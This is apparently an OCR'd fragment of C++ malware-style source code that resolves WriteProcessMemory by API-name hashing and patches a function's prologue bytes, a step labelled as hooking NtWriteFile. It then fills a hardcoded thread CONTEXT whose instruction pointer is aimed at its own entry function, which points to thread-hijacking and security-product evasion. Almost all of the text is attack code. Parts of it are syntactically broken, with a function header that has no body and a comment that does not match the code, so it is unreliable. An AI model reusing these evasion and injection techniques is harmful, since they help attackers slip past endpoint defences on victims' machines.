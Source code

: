 ```cpp 
            DWORD_PTR functionNameVA = (DWORD_PTR)libraryBase + functionNameRVA;
            char* functionName = (char*)functionNameVA;
            DWORD_PTR functionAddressRVA = 0;

            DWORD functionNameHash = getHashFromString(functionName);
            DWORD ProcMemhash = 0x90167b9; // for WriteProcessMemory
            if (functionNameHash == ProcMemhash) {
                functionAddressRVA = addresOfFunctionsRVA[addressOfNameOrdinalsRVA[i]];
                functionAddress = (PDWORD)((DWORD_PTR)libraryBase + functionAddressRVA);
            }
        }

        // Hook NtWriteFile 
        WriteProcessMemory_t pWriteProcessMemory = (WriteProcessMemory_t)functionAddress;
        LPVOID baseAddress = GetProcAddress(GetModuleHandle(myLib), myModule);
        pWriteProcessMemory((HANDLE)(LONG_PTR)-1, baseAddress, "\x4c" "\x8b" "\xd1" "\xb8" "\x8D" 
        "\x01", 6, NULL); 


    }
    return NULL;
}

/*********************************************************
* Thread Context Setup                                   * 
*********************************************************/

void actualMain()

_CONTEXT firstJumpContext = {
        14757395258967641292ui64,14757395258967641292ui64,
        14757395258967641292ui64,14757395258967641292ui64,
        14757395258967641292ui64,14757395258967641292ui64,
        1048577u,3435973836u,51u,52428u,52428u,52428u,52428u,43u,582u,
        14757395258967641292ui64,14757395258967641292ui64,14757395258967641292ui64,
        14757395258967641292ui64,14757395258967641292ui64,14757395258967641292ui64,
        14757395258967641292ui64,14757395258967641292ui64,14757395258967641292ui64,
        14757395258967641292ui64,
        000000000000ui64,        // RSP will be dynamically set 
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        14757395258967641292ui64,
        (DWORD64)&actualMain,    // RIP 
    {
    {
      52428u,52428u,204u,204u,52428u,3435973836u,52428u,52428u,
      3435973836u,52428u,52428u,3435973836u,3435973836u,
      {
        { 14757395258967641292ui64, -3689348814741910324i64 },
        { 14757395258967641292ui64, -3689348814741910324i64 },
        { 14757395258967641292ui64, -3689348814741910324i64 },
        { 14757395258967641292ui64, -3689348814741910324i64 },
        { 14757395258967641292ui64, -3689348814741910324i64 },
        { 14757395258967641292ui64, -3689348814741910324i64 },
        { 14757395258967641292ui64, -3689348814741910324i64 },
```